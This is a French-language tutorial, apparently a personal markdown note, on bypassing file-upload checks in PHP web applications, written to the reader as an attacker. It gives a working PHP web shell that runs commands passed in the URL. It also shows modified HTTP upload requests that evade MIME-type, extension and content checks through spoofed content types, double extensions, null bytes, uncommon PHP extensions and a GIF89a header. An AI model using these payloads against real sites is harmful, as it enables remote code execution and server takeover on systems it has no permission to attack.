 # Bypass fichier Upload

^b3aae6

## Introduction 

Il existe une multitude de faille Web ,la faille d'upload des fichiers est l'une des plus violantes selon moi car de nombreuses web applications permettent à des utilisateurs d'ajouter des fichiers à leurs plateformes que ceux soit à travers des photos(avatars,photo de profil),documents et videos et cette faille reside dans le fait qu'il y est negligeance au niveau des controles,
il ne faut jamais faire confiance à l'utilisateur et voici comment vous en tant qu'utilisateur pouvez l'exploiter particulierement dans le cas des applications web tournant sous php


## 1.upload un script

lorsqu'il n'y aucun control comme dans ce cas vous pouvez tout simplement uloade votre script et y acceder à travers l'url 

```
<?php
system($_GET['command']);
?>
```
ensuite acceder au fichier:
url_vers_fichier?command=commande_unix

vous pouvez tous faire que ce soit lister des contenus de repertoires,afficher les contenus des fichiers bref tout ce que vous pouvez faire sur un os basé unix


## 2. Changer le ContentType

Tres souvent il arrive que pour securiser l'application web ,un controle est fait sur le contenu envoyé 
globablement l'application ne vous permettra plus d'upload n'importe quel type de fichier car une verification se fera sur le MIME type de la requete d'upload

```
POST /images/upload2/ HTTP/1.1
Host: site_cible
[...]

--bbAeeeeedddd--
Content-Disposition: form-data; name="upload_fichier"; fichiername="payload.php"
Content-Type: **application/x-php**
```

votre requete sera bloqué car le content-type indique qu'il ne s'agit pas d'une image
il vous suffit de Changer ce champ à l'aide d'un intercepteur tel que Burpsuite

```
POST /images/upload2/ HTTP/1.1
Host: site_cible
[...]

--bbAeeeeedddd--
Content-Disposition: form-data; name="upload_fichier"; fichiername="payload.php"
Content-Type: **image/jpeg**
```

## 3. manipuler l'extension

dans le cas où la verification est faite uniquement sur l'extension du fichier 

### double exetension

```
POST /images/upload/ HTTP/1.1
Host: site_cible
[...]

--bbAeeeeedddd--
Content-Disposition: form-data; name="upload_fichier"; fichiername="payload.php"
Content-Type: application/x-php
```

changer la requete en

```
POST /images/upload/ HTTP/1.1
Host: site_cible
[...]

--bbAeeeeedddd--
Content-Disposition: form-data; name="upload_fichier"; fichiername="payload.php.jpg"
Content-Type: application/x-php
```

lorsque vous avez le moyen d'inclure ce fichier dans un autre à travers une faille LFI(local fichier inclusion) le serveur interpretera le fichier 

### null byte 
    utiliser le principe de la double extension sauf que cette fois vous allez remplacer le ~~.php~~ en .php**A** ou peut importe n'importe quelle lettre fera l'affaire
et avant d'envoyer la requete interceptée modifier dans la partie **HEX** le code hexa de A ou de la lettre choisi par 00 

```
fichier.php%00.gif
```

vous obtiendrez ce fichier et il marquera la fin de l'execution pour l'interpreteur et au considerer le fichier comme une image il le prendra pour un fichier php et executera votre payload

### utiliser une extension peu populaire 
    si le serveur t'empeche d'uploader des fichiers en fonction d'une liste noir d'extension tu devrais utiliser une extension qui ne sera certainement pas dans cette liste noire cad une extension peu connu tel que *phtml,php4,php5,php6* ou modifier la capitalisation

```
fichier.php5 | fichier.pHp5 | fichier.pHtmL
```

## 4. manipuler le contenu du fichier 

lorsque la verification est faite sur le contenu du fichier vous pouvez 

### ajouter GIF89a; au debut fichier
```
POST /images/upload/ HTTP/1.1
Host: site_cible
[...]

--bbAeeeeedddd--
Content-Disposition: form-data; name="upload_fichier"; fichiername="payload.php"
Content-Type: image/gif

GIF89a; <?php payload_here ?>
```
et le  content-type doit rester de ce type image/*image format*

## fusioner le script à une image 

cela permettra de garder le format d'image et ainsi pouvoir uploader une image qui contient en fait un script

